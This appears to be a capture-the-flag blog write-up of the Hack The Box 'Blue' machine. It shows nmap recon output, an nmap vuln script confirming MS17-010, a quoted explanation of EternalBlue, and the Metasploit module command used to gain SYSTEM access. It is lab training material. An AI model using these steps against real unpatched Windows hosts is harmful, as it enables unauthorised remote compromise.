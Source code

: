 ```yaml
---
layout: PostSimple
date: 
title:     "Hack The Box - Blue"
tags: ['windows','easy','eternalblue']
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-blue/1.png)

We are going to pwn Blue from Hack The Box.

Link : [https://www.hackthebox.eu/home/machines/profile/51](https://www.hackthebox.eu/home/machines/profile/51)


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results:
```
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2008 SP1 (96%), Microsoft Windows Server 2008 SP2 (96%), Microsoft Windows 7 (96%), Microsoft Windows 7 SP0 - SP1 or Windows Server 2008 (96%), Microsoft Windows 7 SP0 - SP1, Windows Server 2008 SP1, Windows Server 2008 R2, Windows 8, or Windows 8.1 Update 1 (96%), Microsoft Windows 7 SP1 (96%), Microsoft Windows 7 Ultimate (96%), Microsoft Windows 8.1 (96%), Microsoft Windows 8.1 Update 1 (96%), Microsoft Windows Vista or Windows 7 SP1 (96%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1m33s, deviation: 1s, median: 1m32s
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-03-08T16:52:23+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-03-08T16:52:25
|_  start_date: 2020-03-08T16:46:59

```

The name of the box is hint, it may be ``eternalblue`` exploit.

We can check that by running nmap script.
>nmap -A -p445 --script vuln 10.10.10.40

```
Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

```
So my guess is correct.
```
What Is EternalBlue?

EternalBlue is an exploit most likely developed by the NSA as a former zero-day. It was released in 2017 by the Shadow Brokers, a hacker group known for leaking tools and exploits used by the Equation Group, which has possible ties to the Tailored Access Operations unit of the NSA.

EternalBlue, also known as MS17-010, is a vulnerability in Microsoft's Server Message Block (SMB) protocol. SMB allows systems to share access to files, printers, and other resources on the network. The vulnerability is allowed to occur because earlier versions of SMB contain a flaw that lets an attacker establish a null session connection via anonymous login. An attacker can then send malformed packets and ultimately execute arbitrary commands on the target.
```

>https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue

>use exploit windows/smb/ms17_010_eternalblue

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-blue/2.png)

After Some attempts it worked.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-blue/3.png)[br/](br/)
I got Authority\System directly.

